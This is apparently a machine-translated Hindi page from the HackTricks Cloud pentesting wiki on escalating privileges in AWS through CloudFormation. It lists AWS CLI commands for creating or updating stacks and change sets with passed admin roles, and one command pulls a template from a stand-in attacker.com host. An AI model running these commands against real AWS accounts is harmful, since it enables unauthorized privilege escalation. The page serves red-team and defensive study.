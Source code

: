 # AWS - Cloudformation Privesc

{% hint style="success" %}
एडवांस्ड वेब सर्विसेज हैकिंग सीखें और प्रैक्टिस करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
जीसीपी हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड ग्रुप**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम ग्रुप**](https://t.me/peass) और **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** को** **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PRs सबमिट करके।

</details>
{% endhint %}

## cloudformation

क्लाउडफॉर्मेशन के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

इन अनुमतियों के साथ एक हमलावर **विशेषित भूमिका की अनुमतियों के तहत कार्रवाई करने के लिए** एक **कस्टम टेम्पलेट के साथ एक क्लाउडफॉर्मेशन स्टैक** बना सकता है, जो उनके सर्वर पर होस्ट किया गया है:
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
निम्नलिखित पृष्ठ पर आपको **एक शोषण उदाहरण** मिलेगा जिसमें अतिरिक्त अनुमति **`cloudformation:DescribeStacks`** शामिल है:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**संभावित प्रभाव:** निर्दिष्ट क्लाउडफॉर्मेशन सेवा भूमिका को उन्नत करना।

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

इस मामले में आप एक मौजूदा क्लाउडफॉर्मेशन स्टैक का दुरुपयोग कर सकते हैं ताकि आप इसे अपडेट कर सकें और पिछले स्थिति के रूप में वर्चस्व को उन्नत कर सकें:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
**प्रभाव:** आपको स्टैक पर `UpdateStack` अनुमति देने के लिए `cloudformation:SetStackPolicy` अनुमति का उपयोग किया जा सकता है और हमला किया जा सकता है।

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

यदि आपके पास यह अनुमति है लेकिन **कोई `iam:PassRole` नहीं** है, तो आप फिर भी **उपयोग किए जाने वाले स्टैक को अपडेट** कर सकते हैं और **उनके पहले से संलग्न IAM Roles का दुरुपयोग** कर सकते हैं। उपयोग के लिए उदाहरण के लिए पिछले खंड की जांच करें (बस अपडेट में कोई भी भूमिका निर्दिष्ट न करें)।

**प्रभाव:** आपको स्टैक पर `UpdateStack` अनुमति देने के लिए `cloudformation:SetStackPolicy` अनुमति का उपयोग किया जा सकता है और हमला किया जा सकता है।

**प्रभाव:** उस cloudformation सेवा भूमिका को उच्चारित करने के लिए Privesc।

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

एक हमलावर जिसके पास **एक भूमिका पारित करने और एक ChangeSet बनाने और निष्पादित करने की अनुमति है** वह **नए cloudformation स्टैक का उपयोग करने और cloudformation सेवा भूमिकाओं का दुरुपयोग** कर सकता है, जैसे कि CreateStack या UpdateStack के साथ।

निम्नलिखित उत्पीड़न **CreateStack एक** का एक **परिवर्तन** है जो **ChangeSet अनुमतियों** का उपयोग करके एक स्टैक बनाने के लिए है।
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
आप `cloudformation:SetStackPolicy` अनुमति का उपयोग करके स्टैक पर **अपने आप को `ChangeSet` अनुमतियाँ देने** और हमला करने के लिए इस्तेमाल कर सकते हैं।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिकाओं के लिए वृद्धि।

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

यह पिछली विधि की तरह है बिना **IAM भूमिकाओं** को पारित किए, इसलिए आप सिर्फ **पहले से संलग्न किए गए भूमिकाओं** का दुरुपयोग कर सकते हैं, पैरामीटर को संशोधित करें:
```
--change-set-type UPDATE
```
**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा रोल पहले से जुड़ा होना।

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

एक हमलावर इन अनुमतियों का दुरुपयोग करके स्टैकसेट बना सकता है/अपडेट कर सकता है ताकि वह अनिश्चित क्लाउडफॉर्मेशन रोल का दुरुपयोग कर सके।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा रोल में प्रिवेस्क।

### `cloudformation:UpdateStackSet`

एक हमलावर इस अनुमति का दुरुपयोग करके स्टैकसेट को अपडेट कर सकता है बिना passRole अनुमति के ताकि वह जुड़े हुए क्लाउडफॉर्मेशन रोल का दुरुपयोग कर सके।

**संभावित प्रभाव:** जुड़े हुए क्लाउडफॉर्मेशन रोल में प्रिवेस्क।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
